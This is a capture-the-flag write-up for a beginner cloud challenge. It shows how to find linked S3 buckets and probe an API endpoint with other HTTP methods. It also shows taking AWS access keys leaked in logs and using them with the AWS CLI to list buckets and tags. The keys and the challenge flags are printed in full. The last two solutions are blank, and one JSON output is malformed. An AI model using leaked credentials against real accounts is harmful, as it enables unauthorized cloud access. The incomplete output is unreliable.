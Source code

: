 ![](images/2-header.png)
# Enumerating the cloud
### beginner | cloud | 125 points
<br/>

## Challenge Information
The spaceship that you will use in SPACE RACE is almost ready. One of the last steps is to verify that all of the systems are operational. Unfortunately, the AI controlling the system information decided to take a personal time off for a few days, leaving you without an easy access to the spaceship systems. This is not a problem because, as the cyber security specialist in the ship, you know the spaceship cloud infrastructure like the back of your hand.
<br/><br />

## Sub-Challenges

### [25 points] Spaceship external information endpoint
Your spaceship is located [here](http://planet-bucket-43b2a07.s3-website-eu-west-1.amazonaws.com), can you find the external information panel?

### Solution
Checking the source code of the page reveals another S3 bucket, [rocket-bucket-723aa76](https://rocket-bucket-723aa76.s3.amazonaws.com).

Downloading flag.txt (https://rocket-bucket-723aa76.s3.amazonaws.com/flag.txt) provides the flag for this sub-challenge. The external information panel file will be useful for the next sub-challenge.

Flag: `CTF{0841862f273fd2ca20ea3b94a645781071ab19d7}`

### [25 points] Obtaining the spaceship access keys
You have gained access to the external infromation endpoint. Can you access the spaceship logs to obtain the access keys?

### Solution
The external information panel contains a link to the [spaceship logs](https://g0341x75tb.execute-api.eu-west-1.amazonaws.com/logs). 


Visiting the page returns a "405" request which says that the GET method is not permitted. I immediately started looking for ways to bypass this error, only to find nothing for a long long time. 

Then something struck me and I decided to check the response header.

Status 200? Interesting. So the "method not permitted" response is actually a fake 405 response? Looks like. 

The next train of thought went to trying other HTTP methods apart from GET, which I did using `curl -X <method> <url>`.

```shell
piyagehi@Piyas-MacBook-Pro:~$ curl -X POST https://g0341x75tb.execute-api.eu-west-1.amazonaws.com/logs
405 Request method 'POST' not allowed
piyagehi@Piyas-MacBook-Pro:~$ curl -X PUT https://g0341x75tb.execute-api.eu-west-1.amazonaws.com/logs
The periscope data is optimal. Have a flag for your effort: CTF{9177a9c8bb1cd5c85934}.<br>
[
    {
        "Id": "dfa0f62de13a1719d125ac2f3382543067701c5031289006c8170d3bab33994a",
        "Created": "2021-06-24T17:33:58.623969048Z",
...
```

Nice!

Flag: `CTF{9177a9c8bb1cd5c85934}`

### [25 points] A cleaning bucket
You have managed to access the spaceship. You see a cleaning bucket, the Lambda Thrusters information panel tag and the E-space Computing Cloud system tags. What does the tag in the cleaning bucket says?

### Solution

Somewhere in the spaceship logs, AWS credentials can be found

```shell
...
"Env": [
    "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
    "AWS_SECRET_ACCESS_KEY=dpmlpQnMgZFZ5Nt8k7AkCTizqGrY84ZRW55lo+52",
    "AWS_ACCESS_KEY_ID=AKIA552OOUKCBWDIUCWS"
],
...
```

So of course, we set up AWS CLI with these credentials to view further information. For an introduction to AWS access keys, click here.

```bash
$ aws configure --profile=enum-cloud
AWS Access Key ID [None]: AKIA552OOUKCBWDIUCWS
AWS Secret Access Key [None]: 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
Default region name [None]: eu-west-1
Default output format [None]: 
$ aws s3 ls
2021-06-24 20:21:57 cleaningbucket-cf2be35
2021-06-24 20:25:07 planet-bucket-43b2a07
2021-06-24 20:24:40 rocket-bucket-723aa76
$ aws s3 ls cleaningbucket-cf2be35
# No result
```

```shell
$ aws s3api get-bucket-tagging --bucket cleaningbucket-cf2be35
{
    "TagSet": [
        {
            "Key": "hackyholidays",
            "Value": "users"
        },
        {
            "Key": "Flag",
            "Value": "CTF 855cc724fd34896c8875"
            "Key": "Next",
            "Value" : "Lambda Thrusters"
        }
    ]
}
```
### [25 points] Lambda Thrusters information panel
What is the tag in the Lambda Thrusters information panel?

### Solution

Flag: ``
<br/><br />
### [25 points] E-space Cloud Computing System
What is the tag in the E-space Cloud Computing System?

### Solution

Flag: ``
<br/><br />




